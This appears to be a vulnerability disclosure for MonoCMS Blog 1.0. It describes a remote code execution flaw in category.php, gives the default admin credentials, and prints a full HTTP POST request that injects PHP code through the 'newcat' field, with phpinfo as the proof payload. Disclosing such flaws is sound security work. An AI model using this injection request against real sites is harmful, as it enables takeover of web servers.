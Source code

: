 # MonoCMS Blog 1.0_remote_code_execution

## Detail:
At monofiles/category.php:27, user input was saved to category/[foldername]/index.php causing RCE.
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/3.png?raw=true)




## POC:
My env
MonoCMS Blog 1.0
php 5.6.9
Windows

category rce 
At monofiles/category.php:27, user input was saved to category/[foldername]/index.php causing RCE.

First Step:
Login to your account(default:admin/1234) 

Send an request:
```
POST /monofiles/category.php HTTP/1.1
Host: 172.16.105.29
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.105.29
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.105.29/monofiles/category
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MON=r1u4c0k2mv2c222linpoma712m
Connection: close

newcat=test";phpinfo();exit();//&foldername=test
```


Visit ```/category/test/index``` to successfully execute the code
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/1.png?raw=true)
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/2.png?raw=true)



 

 



 

